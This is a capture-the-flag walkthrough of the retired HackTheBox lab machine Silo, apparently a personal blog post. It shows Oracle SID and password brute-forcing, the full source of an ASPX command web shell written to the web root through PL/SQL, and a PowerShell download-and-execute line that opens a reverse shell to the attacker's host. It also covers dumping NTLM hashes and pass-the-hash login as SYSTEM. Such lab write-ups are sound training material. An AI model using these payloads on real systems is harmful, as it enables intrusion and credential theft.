




hackthebox Silo
Released: 17th March 2018 / Pwned: September 4th 2019 - [+] Solved whilst Retired

Silo is all about attacking Oracle. Oracle is a relational database management system which is, often, reliably insecure. When logged into an Oracle database it can also, conventianly, be used to elevate your privileges to a shell or even SYSTEM privlieges. You first bruteforce the database for a SID and login credentials. With access to the database, you upload a reverse shell to the web server and gain access to the system. You're then lead by a note to a memory dump from which you extract Administrator's NTLM hash.
There's also an easier method to gain a shell on the target if you make full use of the ODAT tool, as well as an extra privilege escalation route using RottenPotato.
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.82
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/silo# mkdir nmap
root@gotham:~/ctf/silo# nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.82
..
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 8.5
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp open oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49158/tcp open msrpc Microsoft Windows RPC
49160/tcp open oracle-tns Oracle TNS listener (requires service name)
49161/tcp open msrpc Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
Host script results:
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: supported
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2019-09-03 10:24:01
|_ start_date: 2019-09-03 10:17:41
Ports
• 80/http - A web server, which is useful for later. You can gobuster and nikto the site, but there's nothing there.
• 139/smb - A share, but we don't have any credentials so can't access it.
• 1521/oracle - Oracle! This is a unique result, so this is our target
There are typically 4 stages to attacking Oracle
1. Enumerate for SIDs of the database
2. Bruteforce for login credentials
3. Authenticate/connect to the database using credentials + SID
4. Priv-esc/exploit the database
2) metasploit sid_brute
The first step in attacking Oracle is bruteforcing for database SIDs. A SID is a Service Identifier.
SID values uniquely identify databases within Oracle environments, and are used during database connection and authentication.
Metasploit has a module - sid_brute - which can bruteforce the database for a SID.
root@gotham:~/ctf/silo# msfconsole -q
msf5 > use auxiliary/scanner/oracle/sid_brute
msf5 auxiliary(scanner/oracle/sid_brute) > set RHOSTS 10.10.10.82
msf5 auxiliary(scanner/oracle/sid_brute) > set VERBOSE false
msf5 auxiliary(scanner/oracle/sid_brute) > run
[*] 10.10.10.82:1521 - Checking 571 SIDs against 10.10.10.82:1521
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Oracle - 'XE' is valid
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Oracle - 'PLSEXTPROC' is valid
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Oracle - 'CLREXTPROC' is valid
[*] 10.10.10.82:1521 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
Metasploit found 3 valid SIDs:
• XE
• PLSEXTPROC
• CLREXTPROC
3) odat passwordguesser
The next step in attacking Oracle is to bruteforce for login credentials.
There's an nmap script for this - oracle-brute - but it wouldn't work for me.
Instead, there's a Oracle attack tool called odat which will successfully bruteforce for credentials - https://github.com/quentinhardy/odat/releases/
3a) Install odat
If you need to install odat, the easiest way is to download the standalone binary and unzip it - https://github.com/quentinhardy/odat/releases/
I modified the directory name and binary name to make things easier.
root@gotham:~/ctf/silo# wget https://github.com/quentinhardy/odat/releases/download/2.3/odat-linux-libc2.5-i686-v2.3.zip
root@gotham:~/ctf/silo# unzip odat-linux-libc2.5-i686-v2.3.zip
root@gotham:~/ctf/silo# mv odat-libc2.5-i686-v2.3 odat-32bit-2.3
root@gotham:~/ctf/silo# cd odat-32bit-2.3/
root@gotham:~/ctf/silo/odat-libc2.5-i686-v2.3# mv odat-libc2.5-i686 odat
3b) Modify credentials wordlist
Oracle 9 and below's passwords weren't case sensitive.
In Oracle 10 and higher, passwords became case sensitive.
Thefore, odat's accounts/accounts.txt wordlist is invalid for use with the target's Oracle Database because it's Oracle 11.
In that case, we can use metasploit's oracle_default_userpass.txt wordlist - /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt
When using odat, the format of the credentials wordlist must be username/password.
Because we're using /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt, we have to modify the format to replace the spaces with /.
You can do this using vim oracle_default_userpass.txt and :%s/ /\//g.
Copy the metasploit wordlist to odat's accounts/ directory and modify the wordlist.
root@gotham:~/ctf/silo/odat-32bit-2.3# cp /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt accounts/
root@gotham:~/ctf/silo/odat-32bit-2.3# ls accounts/
accounts_multiple.txt accounts.txt oracle_default_userpass.txt
accounts_small.txt logins.txt pwds.txt
root@gotham:~/ctf/silo/odat-32bit-2.3# vim accounts/oracle_default_userpass.txt
...
ctxdemo ctxdemo
ctxsys change_on_install
:%s/ /\//g
root@gotham:~/ctf/silo/odat-32bit-2.3#
3c) Bruteforce credentials
With the credentials wordlist prepared, bruteforce for credenitals using odat's passwordguesser module.
root@gotham:~/ctf/silo/odat-32bit-2.3# ./odat passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file accounts/oracle_default_userpass.txt
[1] (10.10.10.82:1521): Searching valid accounts on the 10.10.10.82 server, port 1521
[+] Valid credentials found: scott/tiger. Continue...
100% |#########################################################################| Time: 00:04:02
[+] Accounts found on 10.10.10.82:1521/XE:
scott/tiger
Success!
We've found a pair of valid credentials - scott / tiger
4) Access database & Upload web shell
You can log in to the oracle database from Kali using sqlplus.
4a) Install sqlplus
Download the following Oracle Instant Client packages for Linux from the link and save the files to an /opt/oracle/ directory, e.g.
• /opt/oracle/instantclient-basic-linux-12.1.0.2.0.zip
• /opt/oracle/instantclient-sqlplus-linux-12.1.0.2.0.zip
Download - https://www.oracle.com/database/technologies/instant-client/downloads.html
Then unzip the archives and apend the evironment variables to the end of your .bashrc file.
root@gotham:~/Downloads# mkdir /opt/oracle/
root@gotham:~/Downloads# mv instantclient-basic-linux-19.3.0.0.0dbru.zip /opt/oracle/
root@gotham:~/Downloads# mv instantclient-sqlplus-linux-19.3.0.0.0dbru.zip /opt/oracle
root@gotham:~/Downloads# cd /opt/oracle/
root@gotham:/opt/oracle# unzip instantclient-basic-linux-19.3.0.0.0dbru.zip
root@gotham:/opt/oracle# unzip instantclient-sqlplus-linux-19.3.0.0.0dbru.zip
root@gotham:/opt/oracle# ls
instantclient_19_3
instantclient-basic-linux-19.3.0.0.0dbru.zip
instantclient-sqlplus-linux-19.3.0.0.0dbru.zip
root@gotham:/opt/oracle# nano ~/.bashrc
...
# sqlplus oracle setup
export PATH=$PATH:/opt/oracle/instantclient_19_3
export SQLPATH=/opt/oracle/instantclient_19_3
export TNS_ADMIN=/opt/oracle/instantclient_19_3
export LD_LIBRARY_PATH=/opt/oracle/instantclient_19_3
export ORACLE_HOME=/opt/oracle/instantclient_19_3
Upon logging-out and back in, the sqlplus utility should work.
4b) Log in to Oracle using sqlplus
With sqlplus installed, you should be able to log in using the credentials found earlier.
root@gotham:~/ctf/silo# sqlplus scott/tiger@10.10.10.82/XE as sysdba
SQL*Plus: Release 19.0.0.0.0 - Production on Wed Sep 4 17:29:27 2019
Version 19.3.0.0.0
Copyright (c) 1982, 2019, Oracle. All rights reserved.
Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
SQL>
4c) Upload web shell
Within oracle, you can write files to the server.
I wrote the cmdasp.aspx web shell in /usr/share/webshells/aspx to the root of the IIS web server in order to get a reverse shell.
Oracle tends not to like writing more than 1024 characters to a file, so you should first trim the cmdasp.aspx file by removing the STYLE tags from <asp enties and remove the HEAD tags.
Here's my trimmed cmdasp.aspx script.
root@gotham:~/ctf/silo# cp /usr/share/webshells/aspx/cmdasp.aspx .
root@gotham:~/ctf/silo# nano cmdasp.aspx
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>
Then using sed, remove the newlines.
The word count is now 990, which is fine.
root@gotham:~/ctf/silo# sed -z 's/\n//g' cmdasp.aspx | wc -c
990
root@gotham:~/ctf/silo# sed -z 's/\n//g' cmdasp.aspx > cmdasp.aspx.trim
root@gotham:~/ctf/silo# cat cmdasp.aspx.trim
<%@ Page Language="C#" Debug="true" Trace="false" %><%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script Language="c#" runat="server">void Page_Load(object sender, EventArgs e){}string ExcuteCmd(string arg){ProcessStartInfo psi = new ProcessStartInfo();psi.FileName = "cmd.exe";psi.Arguments = "/c "+arg;psi.RedirectStandardOutput = true;psi.UseShellExecute = false;Process p = Process.Start(psi);StreamReader stmrdr = p.StandardOutput;string s = stmrdr.ReadToEnd();stmrdr.Close();return s;}void cmdExe_Click(object sender, System.EventArgs e){Response.Write("<pre>");Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));Response.Write("</pre>");}</script><HTML><body ><form id="cmd" method="post" runat="server"><asp:TextBox id="txtArg" runat="server" Width="250px"></asp:TextBox><asp:Button id="testing" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button><asp:Label id="lblText" runat="server">Command:</asp:Label></form></body></HTML>
On the sqlplus shell, set the server output to ON so that you can read the output of your script/command,
SQL> set serveroutput ON
Copy and paste this script into your sqlplus shell.
declare
f utl_file.file_type;
s varchar2(1030) := '<%@ Page Language="C#" Debug="true" Trace="false" %><%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script Language="c#" runat="server">void Page_Load(object sender, EventArgs e){}string ExcuteCmd(string arg){ProcessStartInfo psi = new ProcessStartInfo();psi.FileName = "cmd.exe";psi.Arguments = "/c "+arg;psi.RedirectStandardOutput = true;psi.UseShellExecute = false;Process p = Process.Start(psi);StreamReader stmrdr = p.StandardOutput;string s = stmrdr.ReadToEnd();stmrdr.Close();return s;}void cmdExe_Click(object sender, System.EventArgs e){Response.Write("<pre>");Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));Response.Write("</pre>");}</script><HTML><body ><form id="cmd" method="post" runat="server"><asp:TextBox id="txtArg" runat="server" Width="250px"></asp:TextBox><asp:Button id="testing" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button><asp:Label id="lblText" runat="server">Command:</asp:Label></form></body></HTML>';
begin
f := utl_file.fopen('/inetpub/wwwroot', 'webshell.aspx', 'W');
utl_file.put_line(f,s);
utl_file.fclose(f);
end;
This will write the .aspx shell to the root of the web server.
Input / to complete the script and upload the file.
SQL > /
Your sqlplus shell should look like this:
SQL> declare
f utl_file.file_type;
s varchar2(1030) := '<%@ Page Language="C#" Debug="true" Trace="false" %><%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script Language="c#" runat="server">void Page_Load(object sender, EventArgs e){}string ExcuteCmd(string arg){ProcessStartInfo psi = new ProcessStartInfo();psi.FileName = "cmd.exe";psi.Arguments = "/c "+arg;psi.RedirectStandardOutput = true;psi.UseShellExecute = false;Process p = Process.Start(psi);StreamReader stmrdr = p.StandardOutput;string s = stmrdr.ReadToEnd();stmrdr.Close();return s;}void cmdExe_Click(object sender, System.EventArgs e){Response.Write("<pre>");Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));Response.Write("</pre>");}</script><HTML><body ><form id="cmd" method="post" runat="server"><asp:TextBox id="txtArg" runat="server" Width="250px"></asp:TextBox><asp:Button id="testing" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button><asp:Label id="lblText" runat="server">Command:</asp:Label></form></body></HTML>';
begin
f := utl_file.fopen('/inetpub/wwwroot', 'webshell.aspx', 'W');
utl_file.put_line(f,s);
utl_file.fclose(f);
end; 2 3 4 5 6 7 8
9 /
PL/SQL procedure successfully completed.
We'red told that the procedure successfully completed.
If you visit http://10.10.10.82/webshell.aspx, you should see your webshell.

Gain Access
5) Get reverse shell
The web shell is nice, but an interactive shell is nicer.
Nishang is a collection of powershell scripts for red-teaming.
Grab Nishang's TCP powershell reverse shell with wget.
root@gotham:~/ctf/silo# wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
...
Edit the end of the script so that it calls the Invoke-PowerShellTcp function and connects back to your attacking machine.
root@gotham:~/ctf/silo# nano Invoke-PowerShellTcp.ps1
...
Write-Error $_
}
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 9001
Serve the script to the target
root@gotham:~/ctf/silo# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
Start a listener on your attacking machine
root@gotham:~/ctf/silo# nc -lvnp 9001
listening on [any] 9001 ...
And run
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5:8000/Invoke-PowerShellTcp.ps1') on the webshell to download the reverse shell and run it.

You should see a hit on your server
...
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.82 - - [04/Sep/2019 17:57:56] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
And a shell on your listener!
listening on [any] 9001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.82] 49164
Windows PowerShell running as user SILO$ on SILO
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\windows\system32\inetsrv>
Priv-Esc
6) user.txt & Oracle issue.txt
With a shell, go grab user.txt from Phineas' desktop.
PS C:\windows\system32\inetsrv>cd C:\Users\Phineas\Desktop
PS C:\Users\Phineas\Desktop> dir
Directory: C:\Users\Phineas\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a--- 1/5/2018 10:56 PM 300 Oracle issue.txt
-a--- 1/4/2018 9:41 PM 32 user.txt
PS C:\Users\Phineas\Desktop> cat user.txt
92ede778a1cc8d27cb6623055c331617
You'll also see an Oracle issue.txt note
PS C:\Users\Phineas\Desktop> cat "Oracle issue.txt"
Support vendor engaged to troubleshoot Windows / Oracle performance issue (full memory dump requested):
Dropbox link provided to vendor (and password under separate cover).
Dropbox link
https://www.dropbox.com/sh/69skryzfszb7elq/AADZnQEbbqDoIf5L2d0PBxENa?dl=0
link password:
?%Hm8646uC$
That password fails at Dropbox.
If you read the note the via the webshell instead - type "C:\Users\Phineas\Desktop\Oracle issue.txt", you'll see that the ? is actually a £, which means that there's some weird unicode/ascii encoding bug going on.

Access dropbox and download the memory dump.
7) volatility
We can use volatility to examine the memory dump - https://github.com/volatilityfoundation/volatility
Volatility requires a profile so that it knows what type of system the memory dump came from.
Run systeminfo on the target to find the OS and architecture.
PS C:\Users\Phineas\Desktop> systeminfo
Host Name: SILO
OS Name: Microsoft Windows Server 2012 R2 Standard
OS Version: 6.3.9600 N/A Build 9600
...
System Type: x64-based PC
The target is Windows Server 2012 R2 x64
volatility --info will list available profiles (as well as a bunch more info, long list warning)
root@gotham:~/ctf/silo# volatility --info
Volatility Foundation Volatility Framework 2.6
...
Profiles
--------
...
Win2012R2x64 - A Profile for Windows Server 2012 R2 x64
Win2012R2x64_18340 - A Profile for Windows Server 2012 R2 x64 (6.3.9600.18340 / 2016-05-13)
...
The Win2012R2x64 profile looks like what we want.
Unzip the download MEMORY DUMP.zip and the extracted SILO-20180105-221806.zip file.
root@gotham:~/ctf/silo# unzip MEMORY\ DUMP.zip
Archive: MEMORY DUMP.zip
extracting: SILO-20180105-221806.zip
root@gotham:~/ctf/silo# unzip SILO-20180105-221806.zip
Archive: SILO-20180105-221806.zip
inflating: SILO-20180105-221806.dmp
Run volatility against the memory dump and use the hashdump plugin to dump the NTLM hashes stored in memory at the time of the crash.
root@gotham:~/ctf/silo# volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump
Volatility Foundation Volatility Framework 2.6
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::
8) psexec.py
With an Administrator hash, you can remotely log in as SYSTEM using Impacket's psexec.py (because samba is available).
psexec.py Administrator@10.10.10.82 --hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7
root@gotham:~/ctf/silo# locate psexec.py
/usr/share/doc/python-impacket/examples/psexec.py
/usr/share/keimpx/lib/psexec.py
/usr/share/set/src/fasttrack/psexec.py
root@gotham:~/ctf/silo# cp /usr/share/doc/python-impacket/examples/psexec.py .
root@gotham:~/ctf/silo# ./psexec.py Administrator@10.10.10.82 -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation
[*] Requesting shares on 10.10.10.82.....
[*] Found writable share ADMIN$
[*] Uploading file DvDorNFd.exe
[*] Opening SVCManager on 10.10.10.82.....
[*] Creating service YTCD on 10.10.10.82.....
[*] Starting service YTCD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
nt authority\system
A SYTSEM shell!
Go grab root.txt :)
C:\Windows\system32>cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop>type root.txt
cd39ea0af657a495e33bc59c7836faf6